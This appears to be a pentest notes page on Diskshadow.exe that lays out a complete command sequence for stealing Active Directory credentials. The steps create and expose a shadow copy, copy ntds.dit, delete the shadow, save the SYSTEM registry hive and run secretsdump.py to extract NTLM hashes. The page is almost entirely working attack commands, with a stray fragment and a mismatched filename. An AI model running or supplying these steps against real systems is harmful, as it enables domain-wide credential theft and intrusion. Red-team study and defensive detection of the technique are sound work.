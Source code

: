 # Diskshadow - No credential required

Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). By default, Diskshadow uses an interactive command interpreter similar to that of Diskraid or Diskpart. Diskshadow also includes a scriptable mode.&#x20;

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" %}

This will&#x20;

{% code overflow="wrap" %}
```bash
# Path 
# C:\Windows\System32\diskshadow.exe
# C:\Windows\SysWOW64\diskshadow.exe

CMD>diskshadow.exe

diskshadow>set context persistent nowriters 
diskshadow>set metadata c:\temp\metadata.cab
diskshadow>add volume c: alias someAlias
diskshadow>create
diskshadow> expose %someAlias% z:
diskshadow> exit

CMD> mkdir c:\temp
CMD> cmd.exe /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit

CMD>diskshadow.exe

diskshadow>delete shadows volume someAlias
diskshadow>reset
diskshadow>exit

CMD> reg.exe save hklm\system c:\Temp\system.bak

Kali> secretsdump.py -ntds ntds.dit -system system.bak LOCAL
Kali> secretsdump.py -ntds ntds.dit -system system.back -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```
{% endcode %}

